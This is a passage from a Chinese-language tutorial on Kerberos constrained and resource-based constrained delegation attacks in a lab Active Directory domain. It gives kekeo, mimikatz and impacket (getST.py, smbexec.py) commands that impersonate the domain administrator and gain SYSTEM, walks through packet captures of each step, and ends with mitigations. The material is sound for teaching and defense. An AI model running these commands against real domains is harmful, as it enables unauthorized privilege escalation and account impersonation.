tgt::ask /user:hack /domain:xie.com /password:P@ss1234

#使用上一步的 TGT 认购权证，利用 S4U 协议，以 test@xie.com 用户权限申请一张访问
cifs/AD01.xie.com 服务的 ST 服务票据
tgs::s4u /tgt:TGT_hack@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi /user:test@xie.com /service:cifs/AD01.xie.com
tgs::s4u /tgt:TGT_server_account@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi /user:administrator@xie.com /service:cifs/AD01.xie.com
```

如图所示，使用 kekeo 进行约束性委派攻击，其会生成三个票据。


然后使用 mimikatz 执行如下命令将最后的 s4u2proxy 步骤生成的 ST 服务票据导入内存中，即可访问域控的 CIFS 服务。

```
kerberos::ptt TGS_test@xie.com@XIE.COM_cifs~AD01.xie.com@XIE.COM.kirbi
```

如图所示，使用 mimikatz 将票据导入内存中后，即可远程访问域控。


#### （3）约束性委派攻击抓包分析

下面我们对约束性委派攻击进行抓包分析。在进行约束性委派攻击时，使用 WireShark 进行抓包，如图所示，一共有 6 个包。


前面两个 AS-REQ&AS-REP 数据包，就是以服务账号 hack 的身份向域控请求可转发的 TGT 认购权证。对应的就是第一条命令。

```
tgt::ask /user:hack /domain:xie.com /password:P@ss1234
```

后面四个 TGS-REQ&TGS-REP 的数据包对应的就是第二条命令。使用第一步获取到的可转发的 TGT 认购权证向域控申请具有指定用户(test)权限访问指定服务(cifs/AD01.xie.com)的 ST 服务票据。

```
tgs::s4u /tgt:TGT_hack@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi /user:test@xie.com /service:cifs/AD01.xie.com
```

##### 1）AS-REQ

如图所示，是第一个 AS-REQ 请求包，以 hack 用户身份向 KDC 请求可转发的TGT 认购权证。


##### 2）AS-REP

如图所示，是第二个 AS-REP 回复包，KDC 返回可转发的 TGT 认购权证，也就是 `TGT_hack@XIE.COM_krbtgt~xie.com@XIE.COM.kirbi`


##### 3）TGS-REQ

如图所示，是第三个 TGS-REQ 请求包，需要用到上一步得到的 TGT 认购权证，以 test 的身份向 TGS 服务申请了一张访问自身服务(hack 服务账号所在的服务)的 ST 票据，这一步对于的就是 `S4U2Self`。


##### 4）TGS-REP

如图所示，是第四个 TGS-REP 回复包，KDC 返回了** test 用户访问自身服务(hack 服务账号所在的服务)的 可转发 ST 服务票据**，服务端为 hack，也就是`TGS_test@xie.com@XIE.COM_hack@XIE.COM.kirbi`


##### 5）TGS-REQ

如图所示，是第五个 TGS-REQ 请求包，hack 得到`TGS_test@xie.com@XIE.COM_hack@XIE.COM.kirbi` 票据后，会在 TGS-REQ的 `additional-tickets` 处带上该票据，再次向 KDC 发起 S4U2Proxy 请求，以test 的名义请求一张访问域控 AD01 CIFS 服务的票据。这一步对应的就是`S4U2Proxy`


##### 6）TGS-REP

如图所示，是第六个 TGS-REP 回复包，就是 KDC 返回的**以 test 身份访问域控AD01 的 CIFS 服务的 ST 票据**`TGS_test@xie.com@XIE.COM_cifs~AD01.xie.com@XIE.COM.kirbi`


### 3.基于资源的约束性委派攻击

以下是实验环境：

- 域控：AD01 (10.211.55.4) 
- 域成员主机：Win2008 (10.211.55.7) 
- 域用户：hack
- 域管理员：administrator 
- 域：xie.com

如图所示，这里我们已经拿到了域内一台主机 (win2008) 的普通域账号权限（xie\hack），但是该域用户不在 win2008 的管理员组中，因此我们无法执行mimikatz 等高权限操作。现在我们需要利用基于资源的约束委派进行本地提权，拿到 win2008 主机的 system 权限。


如图所示，通过 LDAP 协议查询域内机器账号的创建者，我们发现，机器win2008.xie.com 的创建者为 hack 用户，也就是当前登录的用户。


于是我们可以通过创建一个机器账号 machine，然后**配置新建的机器账号machine 到 win2008 机器的基于资源的约束性委派**。详细配置如图所示：


如图所示，可以看到基于资源的约束性委派配置成功！


#### （1）使用 impacket 攻击

首先，需要把攻击机的`/etc/resolv.conf` 文件中的 DNS 服务器指定为域控。然后执行如下命令进行攻击：

```
#以 administrator 的身份申请一张访问 cifs/win2008.xie.com 服务的票据
python3 getST.py -dc-ip AD01.xie.com xie.com/machine$:root -spn cifs/win2008.xie.com -impersonate administrator
#导入票据
export KRB5CCNAME=administrator.ccache
python3 smbexec.py -no-pass -k win2008.xie.com
```

如图所示，可以看到执行完这些命令后，成功获得 win2008 机器的 System 权限。


#### （2）基于资源的约束性委派攻击抓包分析

下面我们对约束性委派攻击进行抓包分析。在进行基于资源的约束性委派攻击时，使用 WireShark 进行抓包，如图所示，一共有 6 个包。


前面两个 AS-REQ&AS-REP 数据包，就是**以机器账号 machine 的身份向域控请求可转发的 TGT 票据。**

后面四个是 TGS-REQ&TGS-REP 的数据包，使用第一步获取到的可转发的 TGT认购权证以 administrator 身份通过` S4u2Self `协议访问自身，获取到不可转发的ST 服务票据。然后再通过此不可转发的 ST 服务票据，以 administrator 身份通过以` S4u2Proxy `协议申请访问指定服务(cifs/win2008.xie.com)的可转发 ST 服务票据。

##### 1）AS-REQ

如图所示，是第一个 AS-REQ 请求包，以机器账号 machine 用户身份向 KDC 请求可转发的 TGT 票据。


##### 2）AS-REP

如图所示，是第二个 AS-REP 回复包，KDC 返回可转发的 TGT 认购权证。


##### 3）TGS-REQ

如图所示，是第三个 TGS-REQ 请求包，**这一步就是 S4U2Self 阶段**，**机器账号machine 以 administrator 身份访问自身服务**。


##### 4）TGS-REP

如图所示，是第四个 TGS-REP 回复包，**这里 KDC 返回不可转发的 ST 服务票据**。但是在基于资源的约束性委派流程中，不可转发的 ST 服务票据也是可以通过S4U2Proxy 转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的ST 服务票据！


##### 5）TGS-REQ

如图所示，是第五个 TGS-REQ 请求包，这一步就是 **S4U2Proxy** 阶段，**机器账号machine 以 administrator 身份申请 cifs/win2008.xie.com 服务的 ST 服务票据，带着上一步获取到的不可转发的 ST 服务票据放在 additional_tickets 里面。**



##### 6）TGS-REP

如图所示，是第六个 TGS-REP 回复包，**KDC 返回以 administrator 身份访问cifs/win2008.xie.com 服务的 ST 服务票据**。


## 域委派攻击防范措施

- 高权限的用户，设置不能被委派，如图所示，设置 administrator 用户不能被委派。
- 主机账号需设置委派时，只能设置为约束性委派；
- Windows 2012 R2 及更高的系统建立了受保护的用户组 ProtectedUsers，该组内的用户不允许被委派。将需要被保护的服务用户加入该组中即可。

